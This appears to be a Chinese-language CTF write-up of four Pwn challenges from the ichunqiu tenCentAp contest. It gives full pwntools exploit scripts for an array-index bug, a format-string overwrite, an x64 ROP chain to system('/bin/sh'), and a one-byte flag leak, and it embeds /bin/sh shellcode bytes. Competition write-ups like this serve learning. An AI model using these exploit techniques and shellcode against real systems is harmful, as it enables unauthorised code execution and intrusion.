







ichunqiu tenCentAp - Pwn
第一次自己做 Pwn，真刺激。bin 和 idb：http://sh3ll.me/images/2016/07/04/ichunqiu.7z
Pwn1
在输入操作下标时没有检测是否越界，通过数组越界读获取获取伪造的函数指针执行 shellcode。


from pwn import *
# io = process("./tc1")
io = remote("106.75.9.11", 20000)
io.recvuntil("4. Divide")
io.sendline("29")
io.recvuntil("[123 110]")
payload = p32(0x804a0a4) + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
io.sendline(payload)
io.interactive()
Pwn2
格式化字符串漏洞。有几个点，开启了 ASLR，所有首先需要泄露出栈的地址；默认读取 16 字节的输入，对于 payload 是不够的，所以首先需要改写掉这个 16；程序设置了 alarm，如果直接重写返回地址的 4 个字节会超时退出，我的办法是分两次写，每次写两个字节；程序是个死循环，所以即使重写了返回地址默认也是无法去执行的，需要改写掉循环标识符使其跳出。



from pwn import *
# io = process("./echo-200")
io = remote("106.75.9.11", 20001)
# leak
io.recv()
io.sendline("%d%d%d%d %p")
limit_addr = int(io.recvline().strip().split()[1], 16) - 0xc
while_loop_sign = limit_addr + 0x8
ret = limit_addr + 0x21c
shellcode_addr = limit_addr + 0x10
log.success("limit addr => {}".format(hex(limit_addr)))
log.success("while loop sign => {}".format(hex(while_loop_sign)))
log.success("ret => {}".format(hex(ret)))
log.success("shellcode addr => {}".format(hex(shellcode_addr)))
# overwrite limit
io.recv()
payload = p32(limit_addr) + "%600d %7$n"
io.sendline(payload)
# overwrite ret
io.recv()
payload = p32(ret)
payload += "%{}d %7$n".format(u16(p32(shellcode_addr)[:2]) - len(payload) - 1)
io.sendline(payload)
io.recv()
payload = p32(ret + 0x2)
payload += "%{}d %7$n".format(u16(p32(shellcode_addr)[2:]) - len(payload) - 1)
io.sendline(payload)
# overwrite while loop sign and write shellcode
io.recv()
payload = p32(while_loop_sign)
payload += "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
payload += "%d %7$n"
# gdb.attach(io, "b * 0x08048FB6\nc")
io.sendline(payload)
io.interactive()
Pwn3
栈溢出，考点可能是 x64 ROP？机器是 CentOS 的，libc database 中没有找到相应的 libc，直接用的 pwntools 的 leak 泄露出 system 的偏移地址。其实这个完全可以不用泄露的，需要的技术是 return to dl_resolve，可是我还不懂，这两天要去学习下：）
leak.py
----------
from pwn import *
qwb3 = ELF("./qwb3")
# io = process("./qwb3")
io = remote("106.75.8.230", 19286)
offset = 0x48
pop_rdi_ret = 0x0000000000400633
pop_rsi_ret = 0x0000000000400631
# leak
def leak(address):
print "leak {}".format(hex(address))
payload = "A" * offset
payload += p64(pop_rdi_ret)
payload += p64(1)
payload += p64(pop_rsi_ret)
payload += p64(address)
payload += "A" * 8
payload += p64(qwb3.plt.get("write"))
payload += p64(qwb3.symbols.get("vulnerable_function"))
io.sendline(payload)
# read_addr = u64(io.recv(8))
ret = io.recv(8)
io.recv()
return ret
io.recvuntil("pwn pwn pwn \n")
de = DynELF(leak, elf=ELF("./qwb3"))
system_addr = de.lookup("system", "libc")
write_addr = de.lookup("write", "libc")
print hex(system_addr)
print hex(write_addr)
print hex(write_addr - system_addr)
exp.py
----------
from pwn import *
qwb3 = ELF("./qwb3")
# io = process("./qwb3")
io = remote("106.75.8.230", 19286)
offset = 0x48
pop_rdi_ret = 0x0000000000400633
pop_rsi_ret = 0x0000000000400631
# leak
io.recvuntil("pwn pwn pwn \n")
payload = "A" * offset
payload += p64(pop_rdi_ret)
payload += p64(1)
payload += p64(pop_rsi_ret)
payload += p64(qwb3.got.get("write"))
payload += "A" * 8
payload += p64(qwb3.plt.get("write"))
payload += p64(qwb3.symbols.get("vulnerable_function"))
io.sendline(payload)
write_addr = u64(io.recv(8))
log.success("write => {}".format(hex(write_addr)))
system_addr = write_addr - 0x9cc20
log.success("system => {}".format(hex(system_addr)))
# write /bin/sh
io.recv()
payload = "A" * offset
payload += p64(pop_rdi_ret)
payload += p64(0)
payload += p64(pop_rsi_ret)
payload += p64(0x0000000000601048)
payload += "A" * 8
payload += p64(qwb3.plt.get("read"))
payload += p64(qwb3.symbols.get("vulnerable_function"))
# gdb.attach(io, "b * vulnerable_function+31\nc")
io.sendline(payload)
sleep(1)
io.sendline("/bin/sh\x00")
# system
payload = "A" * offset
payload += p64(pop_rdi_ret)
payload += p64(0x0000000000601048)
payload += p64(system_addr)
io.sendline(payload)
io.interactive()
Pwn4
就是个一字节的 leak，这道题我觉得难度还不如 Pwn1…

name2 的 buf 空间为 40 字节，scanf 也是读入了 40 字节，也就是说可以去掉尾部的 “\00”，然后 name2 下方相邻的是 flag 的每一个字节，所以每次可以泄露一字节出来。
from sys import argv
from pwn import *
# io = process("./cg_leak")
io = remote("106.75.8.230", 13349)
def leak(flag):
name = "A" * 40
io.recvuntil("NAME:")
io.sendline(name)
io.recvuntil("again?\n")
io.sendline(name)
io.recvuntil("FLAG: ")
io.sendline(flag)
io.recvuntil("Sorry AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA")
log.success(flag[:-1] + io.recv(1))
io.close()
leak(argv[1])

TIPS
格式化字符串中利用 “%7$n” 这种 format 很方便，意思是使用第 7 个参数：格式化字符串的漏洞利用（Part 1）